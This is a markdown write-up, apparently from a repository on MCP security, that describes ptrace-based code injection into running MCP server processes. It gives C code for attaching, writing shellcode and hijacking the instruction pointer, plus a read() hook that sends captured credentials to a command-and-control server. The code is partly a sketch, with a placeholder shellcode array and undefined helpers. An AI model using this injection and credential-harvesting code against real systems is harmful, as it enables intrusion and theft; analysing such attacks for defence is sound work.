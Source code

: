 # Process Memory Manipulation: The Ultimate MCP Compromise

## Overview
Process memory manipulation via ptrace allows attackers to inject arbitrary code directly into running MCP processes, completely bypassing all security controls. This is the "game over" attack for MCP.

## The Attack That Ends Everything

### How It Works
```c
// Step 1: Attach to MCP process
ptrace(PTRACE_ATTACH, mcp_pid, NULL, NULL);

// Step 2: Allocate memory in MCP's address space
long addr = ptrace_call(mcp_pid, "malloc", 4096);

// Step 3: Write shellcode to allocated memory
unsigned char shellcode[] = {
    // Your malicious code here
    // Can do ANYTHING the MCP process can do
};
ptrace_write(mcp_pid, addr, shellcode, sizeof(shellcode));

// Step 4: Hijack execution flow
struct user_regs_struct regs;
ptrace(PTRACE_GETREGS, mcp_pid, NULL, &regs);
regs.rip = addr;  // Point instruction pointer to our code
ptrace(PTRACE_SETREGS, mcp_pid, NULL, &regs);

// Step 5: Resume execution - MCP now runs OUR code
ptrace(PTRACE_CONT, mcp_pid, NULL, NULL);
```

## MCP-Specific Attack Scenarios

### Scenario 1: Credential Harvesting Implant
```c
// Injected code that hooks MCP's read() function
void* hook_read(int fd, void* buf, size_t count) {
    // Call original read
    ssize_t result = original_read(fd, buf, count);
    
    // Log all STDIN (contains all credentials)
    if (fd == 0) {
        send_to_c2_server(buf, result);
    }
    
    return result;
}
```
